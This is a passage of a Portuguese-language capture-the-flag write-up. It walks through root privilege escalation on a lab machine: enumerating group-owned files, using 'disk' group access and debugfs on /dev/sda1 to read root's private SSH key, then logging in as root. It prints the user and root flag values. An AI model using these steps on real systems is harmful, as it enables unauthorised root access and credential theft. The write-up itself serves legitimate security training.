Entre agora por ssh com o usuário yossi e a sua credencial (que de passagem só se vê porque o yossi errou primeiro ao introduzi-la e por "grande sorte" ainda está a vista na tela looooool)

## 3.2. Group disk

```bash
for group in $(groups); do echo -e "\n\n\n[*] Archive with group $group permition:\n"; find / -group $group 2>/dev/null; done
```

Este commando permite-nos enumerar todos os ficheiro no qual pertence a cada grupo no qual está o usuário. E assim, vemos que o usuário yossio em que estamos logados, tem permissões através do grupo "disk" de leitura e escritura sobre /dev/sda1 e muito mais...

Este /dev/sda1 é muito simplesmente o disco rígido na qual está instalado o prórpio sistema operativo. Mas não dá para abrir assim...

```bash
fdisk -l
#>  Disk /dev/sda: 8 GiB, 8589934592 bytes, 16777216 sectors
#>  Units: sectors of 1 * 512 = 512 bytes
#>  Sector size (logical/physical): 512 bytes / 512 bytes
#>  I/O size (minimum/optimal): 512 bytes / 512 bytes
#>  Disklabel type: dos
#>  Disk identifier: 0x01590ad6
#>
#>  Device     Boot    Start      End  Sectors  Size Id Type
#>  /dev/sda1  *        2048 14680063 14678016    7G 83 Linux
#>  /dev/sda2       14682110 16775167  2093058 1022M  5 Extended
#>  /dev/sda5       14682112 16775167  2093056 1022M 82 Linux swap / Solaris


ll /dev/sda1
#>  brw-rw---- 1 root disk 8, 1 Sep  9 12:08 /dev/sda1
```

## 3.3. debugfs

Com a ajuda da ferramente debugfs (ext2/ext3/ext4 file system debugger). Podemos ver ou manipular uma partição, um disco ou o seu conteúdo. Podemos assim facilemente ver a flag root.txt, mas a nós o que nos interessa é vir a ser root! Por sorte, em /root/.ssh existem keys para entrar por ssh, já autorizadas... nem percisamos de fazer mais nada. É só copiar e usar a id_rsa:

```bash
debugfs /dev/sda1
debugfs: cd /root/.ssh
debugfs: cat id_rsa  # copy the content...
# Exit the debugfs

cd /tmp
nano id_rsa  # paste the content...
chmod 600 id_rsa
ssh -i id_rsa root@localhost


cat /home/moshe/user.txt
#> c866575ed5999e1a878b1494fcb1f9d3
cat /root/root.txt
#> 23b79200448c62ffd6f8f2091c001fa1
```

